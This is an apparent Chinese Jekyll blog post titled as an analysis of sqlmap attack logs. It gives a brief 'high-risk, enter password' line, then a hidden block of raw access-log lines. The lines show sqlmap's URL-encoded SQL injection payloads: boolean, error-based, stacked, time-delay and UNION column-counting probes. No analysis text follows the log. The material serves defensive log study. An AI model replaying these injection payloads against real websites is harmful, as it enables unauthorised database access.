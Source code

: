 ```yaml
---
layout: post
title: "sqlmap 攻击日志分析及自动化解决想法"
description: ""
category: 
tags: [sqlmap, hack]
---
```

{% include JB/setup %}
以下内容高危，如你知道密码，请输入

<div style="display:none">
以下是我用sqlmap扫的日志，这是最简单的扫描记录
<pre><code>GET /?a=1 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=2904 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%22%28%27%27%28%22%28%27%29%28 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208676%3D9977%20AND%20%289633%3D9633 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203925%3D3925%20AND%20%289861%3D9861 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20636%3D7258%20AND%20%285513%3D5513 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%204986%3D6711 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%203925%3D3925 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%203864%3D9683 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20940%3D4505%20AND%20%28%27konc%27%3D%27konc HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203925%3D3925%20AND%20%28%27FFCP%27%3D%27FFCP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207381%3D1001%20AND%20%28%27OLcv%27%3D%27OLcv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%202327%3D9115%20AND%20%27Qlha%27%3D%27Qlha HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203925%3D3925%20AND%20%27Wlgw%27%3D%27Wlgw HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%201192%3D5861%20AND%20%27mmuZ%27%3D%27mmuZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%287269%3D7269 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%28%27kalg%27%3D%27kalg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%27bMbA%27%3D%27bMbA HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%281279%3D1279 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%28%27RfWr%27%3D%27RfWr HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%27uRAt%27%3D%27uRAt HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%283395%3D3395 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%28%27FJAP%27%3D%27FJAP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%27wdHo%27%3D%27wdHo HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%281009%3D1009 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%28%27ytpV%27%3D%27ytpV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%27KQDt%27%3D%27KQDt HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%287560%3D7560 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%28%27AfMz%27%3D%27AfMz HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%27pIKO%27%3D%27pIKO HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%283641%3D3641 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20PG_SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%28%27mTPd%27%3D%27mTPd HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%27lhez%27%3D%27lhez HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%285747%3D5747 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%28%27iUug%27%3D%27iUug HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%27oGtV%27%3D%27oGtV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20SLEEP%285%29%20AND%20%283924%3D3924 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%20SLEEP%285%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20SLEEP%285%29%20AND%20%28%27vnCj%27%3D%27vnCj HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20SLEEP%285%29%20AND%20%27xHdS%27%3D%27xHdS HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%287626%3D7626 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%28%27vrAE%27%3D%27vrAE HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%27VcUg%27%3D%27VcUg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%283376%3D3376 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20WAITFOR%20DELAY%20%270%3A0%3A5%27-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%28%27cMqq%27%3D%27cMqq HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%27QQdM%27%3D%27QQdM HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%284545%3D4545 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%28%27JNkT%27%3D%27JNkT HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%27YxKy%27%3D%27YxKy HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28771%3D771 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%282265%3D2265 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286668%3D6668 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%283039%3D3039 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287237%3D7237 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%281361%3D1361 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287315%3D7315 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286174%3D6174 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%285136%3D5136 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%282494%3D2494 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28%27nymA%27%3D%27nymA HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%28%27ijmk%27%3D%27ijmk HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27oFxP%27%3D%27oFxP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27CWYo%27%3D%27CWYo HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27lxqZ%27%3D%27lxqZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27DWNP%27%3D%27DWNP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27byrs%27%3D%27byrs HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27KEvQ%27%3D%27KEvQ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27OLyg%27%3D%27OLyg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27TOsV%27%3D%27TOsV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%27mDCu%27%3D%27mDCu HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%27VTxz%27%3D%27VTxz HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27YmTa%27%3D%27YmTa HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27MMix%27%3D%27MMix HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27bXGh%27%3D%27bXGh HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27DuTO%27%3D%27DuTO HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27JVBX%27%3D%27JVBX HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27xxHC%27%3D%27xxHC HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27zReF%27%3D%27zReF HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27iOvN%27%3D%27iOvN HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL--%20AND%20%282876%3D2876 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%284969%3D4969 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281601%3D1601 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%285858%3D5858 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%2867%3D67 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%286756%3D6756 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%283876%3D3876 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281001%3D1001 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%287414%3D7414 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28767%3D767 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
